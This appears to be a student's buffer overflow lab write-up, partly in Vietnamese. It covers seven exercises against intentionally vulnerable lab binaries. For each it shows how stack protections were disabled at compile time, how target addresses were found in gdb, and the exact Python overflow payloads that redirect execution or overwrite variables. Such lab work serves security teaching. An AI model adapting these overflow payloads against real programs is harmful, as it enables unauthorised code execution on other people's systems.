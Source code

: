 # MSSV:22110008   NAME: Do Duc Anh

# file bof1:
*result mong muốn: Khai thác lỗi tràn bộ đệm để gọi hàm secretFunc()
=>Missing arguments  
Enter text:Congratulation!  
Segmentation fault  

step 1: chạy môi trường để kiểm tra bảo mật
docker run -it --privileged -v C:/Users/anhdo/Seclabs:/home/seed/seclabs img4lab

step 2: đến folder seclabs, bof
seed@a798a1096d57:~$ cd seclabs     seed@a798a1096d57:~/seclabs$ cd bof

step 3: biên dịch file bof1.c và tắt bảo vệ stack
seed@68a4b6750ecf:~/seclabs/bof$ gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack

step 4: chạy trình gỡ lỗi để phân tích khai thác hành vi nguy hiểm
seed@a798a1096d57:~/seclabs/bof$ gdb -q bof1.out

step 5:hiện thị mã máy của hàm secretFunc
gdb-peda$ disas secretFunc

step 6: lưu địa chỉ của hàm secretFunc
save address secretFunc: 0x0804846b

step 7: tạo tràn bộ đệm với 204 ký tự 'a'
seed@69bdf0fe4fb1:~/seclabs/bof$ python -c "print('a'*204 +'\x6b\x84\x04\x08')" | ./bof1.out

# file bof2:
*result mong muốn: Khai thác lỗi tràn bộ đệm để ghi đè giá trị biến 'check'
=>[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah! You win!

step1,2,3,4 is similar with bof1

step 5: tạo chuỗi tràn bộ đệm để ghi đè giá trị
seed@69bdf0fe4fb1:~/seclabs/bof$ python -c "print('a'*40 + '\xef\xbe\xad\xde')" | ./bof2.out

# file bof3:
*result mong muốn: Khai thác lỗi tràn bộ đệm để gọi hàm shell
=>You made it! The shell() function is executed

step 1,2,3 is similar with bof1

step 4: seed@69bdf0fe4fb1:~/seclabs/bof$ gdb -q bof3.out

step 5: gdb-peda$ disas shell

step 6: save address shell: 0x0804845b

step 7:
seed@69bdf0fe4fb1:~/seclabs/bof$ python -c "print('a'*128 + '\x5b\x84\x04\x08')" | ./bof3.out

# ctf:
*result mong muốn: Khai thác lỗi tràn bộ đệm để gọi hàm myfunc và lấy cờ
=> myfunc is reachedYou got the flag

step 1,2,3 is similar with bof1

step 4: seed@69bdf0fe4fb1:~/seclabs/bof$ gdb -q ctf.out

step 5: gdb-peda$ disas myfunc

step 6: save address myfunc: 0x0804851b ,save address myfunc: 0x080483e0

step 7: seed@69bdf0fe4fb1:~/seclabs/bof$ touch flag1.txt | ./ctf.out $(python -c "print('a'*104 + '\x1b\x85\x04\x08'+ '\xe0\x83\x04\x08' + '\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

# flag:
*result mong muốn: Kiểm tra sự thay đổi của chương trình khi tràn bộ đệm
=>Modified

step 1,2,3 is similar with bof1

step 4:
seed@69bdf0fe4fb1:~/seclabs/bof$ ./flag.out $(python -c "print('a'*17)")

# pattern:
*result mong muốn: Kiểm tra mẫu đúng trong chương trình
=>Correct pattern

step 1,2,3 is similar with bof1

step 4: seed@69bdf0fe4fb1:~/seclabs/bof$ ./pattern.out $(python -c "print('a'*16 + '\x62\x42\x61\x41')")

# flow:
*result mong muốn: Khai thác lỗi tràn bộ đệm để thay đổi luồng chương trình
=>code flow has been modified  
Segmentation fault

step 1,2,3,4 is similar with bof1

step 5: gdb-peda$ disas change

step 6: save address change: 0x0804843b

step 7: seed@69bdf0fe4fb1:~/seclabs/bof$ ./flow.out $(python -c "print('a'*20 + '\x3b\x84\x04\x08')")




